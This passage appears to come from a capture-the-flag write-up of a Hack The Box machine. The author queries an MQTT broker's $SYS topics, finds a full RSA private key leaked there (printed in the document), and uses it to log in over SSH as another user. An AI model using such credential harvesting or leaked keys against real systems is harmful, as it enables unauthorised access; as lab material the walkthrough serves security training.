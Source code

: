 ### Finding user creds

mosquitto_sub -h localhost -p 1883 -t '$SYS/#' -v

```
observer@player2:~$ mosquitto_sub -h localhost -p 1883 -t '$SYS/#' -v
$SYS/broker/version mosquitto version 1.4.15
$SYS/broker/timestamp Tue, 18 Jun 2019 11:42:22 -0300
...snipped...
$SYS/internal/firmware/signing Retrieving the key from aws instance
$SYS/internal/firmware/signing Key retrieved..
$SYS/broker/uptime 319 seconds
...snipped...
$SYS/internal/firmware/signing -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA7Gc/OjpFFvefFrbuO64wF8sNMy+/7miymSZsEI+y4pQyEUBA
R0JyfLk8f0SoriYk0clR/JmY+4mK0s7+FtPcmsvYgReiqmgESc/brt3hDGBuVUr4
et8twwy77KkjypPy4yB0ecQhXgtJNEcEFUj9DrOq70b3HKlfu4WzGwMpOsAAdeFT
+kXUsGy+Cp9rp3gS3qZ2UGUMsqcxCcKhn92azjFoZFMCP8g4bBXUgGp4CmFOtdvz
SM29st5P4Wqn0bHxupZ0ht8g30TJd7FNYRcQ7/wGzjvJzVBywCxirkhPnv8sQmdE
+UAakPZsfw16u5dDbz9JElNbBTvwO9chpYIs0QIDAQABAoIBAA5uqzSB1C/3xBWd
62NnWfZJ5i9mzd/fMnAZIWXNcA1XIMte0c3H57dnk6LtbSLcn0jTcpbqRaWtmvUN
wANiwcgNg9U1vS+MFB7xeqbtUszvoizA2/ScZW3P/DURimbWq3BkTdgVOjhElh6D
62LlRtW78EaVXYa5bGfFXM7cXYsBibg1+HOLon3Lrq42j1qTJHH/oDbZzAHTo6IO
91TvZVnms2fGYTdATIestpIRkfKr7lPkIAPsU7AeI5iAi1442Xv1NvGG5WPhNTFC
gw4R0V+96fOtYrqDaLiBeJTMRYp/eqYHXg4wyF9ZEfRhFFOrbLUHtUIvkFI0Ya/Y
QACn17UCgYEA/eI6xY4GwKxV1CvghL+aYBmqpD84FPXLzyEoofxctQwcLyqc5k5f
llga+8yZZyeWB/rWmOLSmT/41Z0j6an0bLPe0l9okX4j8WOSmO6TisD4WiFjdAos
JqiQej4Jch4fTJGegctyaOwsIVvP+hKRvYIwO9CKsaAgOQySlxQBOwMCgYEA7l+3
JloRxnCYYv+eO94sNJWAxAYrcPKP6nhFc2ReZEyrPxTezbbUlpAHf+gVJNVdetMt
ioLhQPUNCb3mpaoP0mUtTmpmkcLbi3W25xXfgTiX8e6ZWUmw+6t2uknttjti97dP
QFwjZX6QPZu4ToNJczathY2+hREdxR5hR6WrJpsCgYEApmNIz0ZoiIepbHchGv8T
pp3Lpv9DuwDoBKSfo6HoBEOeiQ7ta0a8AKVXceTCOMfJ3Qr475PgH828QAtPiQj4
hvFPPCKJPqkj10TBw/a/vXUAjtlI+7ja/K8GmQblW+P/8UeSUVBLeBYoSeiJIkRf
PYsAH4NqEkV2OM1TmS3kLI8CgYBne7AD+0gKMOlG2Re1f88LCPg8oT0MrJDjxlDI
NoNv4YTaPtI21i9WKbLHyVYchnAtmS4FGqp1S6zcVM+jjb+OpBPWHgTnNIOg+Hpt
uaYs8AeupNl31LD7oMVLPDrxSLi/N5o1I4rOTfKKfGa31vD1DoCoIQ/brsGQyI6M
zxQNDwKBgQCBOLY8aLyv/Hi0l1Ve8Fur5bLQ4BwimY3TsJTFFwU4IDFQY78AczkK
/1i6dn3iKSmL75aVKgQ5pJHkPYiTWTRq2a/y8g/leCrvPDM19KB5Zr0Z1tCw5XCz
iZHQGq04r9PMTAFTmaQfMzDy1Hfo8kZ/2y5+2+lC7wIlFMyYze8n8g==
-----END RSA PRIVATE KEY-----

$SYS/internal/firmware/signing Verifying signing..
$SYS/internal/firmware/signing Sent logs to apache server.

```

I have an SSH key! Lets try it with `egre55` and `observer` users we saw earlier...

```
zweilos@kalimaa:~/htb/playertwo$ ssh -i observer_id_rsa observer@10.10.10.170
load pubkey "observer_id_rsa": invalid format
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.2.5-050205-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun 25 21:41:14 UTC 2020

  System load:  0.0                Processes:            167
  Usage of /:   26.1% of 19.56GB   Users logged in:      0
  Memory usage: 25%                IP address for ens33: 10.10.10.170
  Swap usage:   0%


```